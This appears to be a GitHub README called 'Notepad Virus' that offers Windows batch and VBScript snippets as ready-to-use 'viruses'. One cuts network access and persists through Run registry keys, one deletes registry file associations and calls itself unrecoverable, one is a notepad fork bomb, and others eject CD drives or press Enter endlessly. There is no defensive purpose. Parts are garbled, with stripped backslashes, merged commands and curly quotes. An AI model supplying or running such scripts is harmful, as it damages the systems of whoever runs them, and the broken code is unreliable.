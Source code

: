 # Notepad Virus

## 🦠Top Virus Making Commands From Notepad🦠


### 🟣1. Disable Internet Permanently :-
```bash  
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
### 🃏Action :-  This 11:27 AM 30-07-202311:28 AM 30-07-202322 will disable the internet connectivity permanently.



### 🟣2.  Delete Key Registry Files :-

```bash
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your PC has been crashed.Your Dad.
GOTO MESSAGE
```
### 🃏Action :- This will delete key registry files, then loops a message

# This is dangerous and unrecoverable Notepad Virus.

## 🟣3.Endless Notepads :-
```bash 
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```
### 🃏Action :- This will pop up endless notepads until the computer freezes and crashes


### 🟣4. Popping Cd Drive :- 
```bash
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

### 🃏Action :- This will make the CD drives constantly pop out


## 🟣 5. Endless Enter :-

```bash 
Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

### 🃏Action :- This will make the enter button pressed continuously
